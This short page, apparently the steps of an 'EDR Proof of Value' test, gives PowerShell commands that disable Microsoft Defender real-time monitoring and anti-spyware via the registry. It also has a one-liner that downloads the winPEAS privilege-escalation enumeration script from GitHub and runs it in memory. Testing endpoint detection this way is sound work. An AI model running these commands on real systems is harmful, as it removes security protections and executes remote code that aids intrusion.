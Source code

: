 # Project EDR
Proof of Value

Disable Microsoft Defender

Set-MpPreference -DisableRealtimeMonitoring $true
New-ItemProperty -Path "HKLM:\SOFTWARE\Policies\Microsoft\Windows Defender" -Name DisableAntiSpyware -Value 1 -PropertyType DWORD -Force




1. Downloading the winPEAS.ps1 script from its GitHub repository.
2. Executing that script immediately. Run the following script.
   
powershell -Exec ByPass -NoProfile -c "(New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/carlospolop/PEASS-ng/master/winPEAS/winPEASps1/winPEAS.ps1') | IEX"
